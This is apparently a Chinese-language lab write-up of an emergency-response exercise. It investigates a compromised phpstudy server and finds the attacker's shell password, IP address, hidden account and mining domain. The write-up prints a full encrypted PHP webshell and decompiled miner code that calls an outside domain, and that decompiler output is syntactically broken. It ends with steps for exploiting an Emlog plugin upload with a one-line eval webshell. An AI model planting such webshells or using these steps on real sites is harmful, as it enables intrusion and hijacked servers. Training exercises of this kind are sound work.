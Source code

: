 
:::info
前景需要：
小李在值守的过程中，发现有CPU占用飙升，出于胆子小，就立刻将服务器关机，这是他的服务器系统，请你找出以下内容，并作为通关条件：

1.攻击者的shell密码
2.攻击者的IP地址
3.攻击者的隐藏账户名称
4.攻击者挖矿程序的矿池域名

用户：
administrator
密码
Zgsf@admin.com
:::

打开虚拟机，发现是`phpstudy`

### 查杀webshell

用河马进行查杀`webshell`

![image-20240531174529772](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240531174529772.png)

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

攻击者的shell密码是，rebeyond

### 查看apache的日志

搜索shell.php找到访问日志

![image-20240531174820861](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240531174820861.png)

攻击者的IP地址是`192.168.126.1`

### 分析windows日志

利用windows日志分析工具

发现用户`hack168$`远程登录成功

![image-20240531175125741](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240531175125741.png)

攻击者的隐藏账户名称是`hack168$`

### 分析挖矿程序

在`hack168$`用户的桌面发现挖矿程序

![image-20240531175350545](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240531175350545.png)



该图标为pyinstaller打包，使用pyinstxtractor进行反编译

```
https://github.com/extremecoders-re/pyinstxtractor
```

```cmd
python pyinstxtractor.py Kuang.exe
```

找到pyc文件

![image-20240531175630607](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240531175630607.png)

在线pyc反编译一下

```
https://tool.lu/pyc/
```

反编译后的源码

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 3.8

import multiprocessing
import requests

def cpu_intensive_task():
    
    try:
        requests.get('http://wakuang.zhigongshanfang.top', 10, **('timeout',))
    finally:
        continue
        continue

    continue

if __name__ == '__main__':
    cpu_count = multiprocessing.cpu_count()
    processes = (lambda .0: [ multiprocessing.Process(cpu_intensive_task, **('target',)) for _ in .0 ])(range(cpu_count))
    for process in processes:
        process.start()
    for process in processes:
        process.join()
```

攻击者挖矿程序的矿池域名是，wakuang.zhigongshanfang.top

### 通关

```
rebeyond
192.168.126.1
hack168$
wakuang.zhigongshanfang.top
```

### Emlog v2.2.0后台插件上传漏洞

利用phpstudy运行起来网站

弱密码`admin:123456`登录进后台

首先写一个文件`22.php`，内容`<?php eval($_POST[1]);?>`，进行压缩

![image-20240531181339661](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240531181339661.png)

上传之后访问`http://192.168.18.129/content/plugins/22/22.php`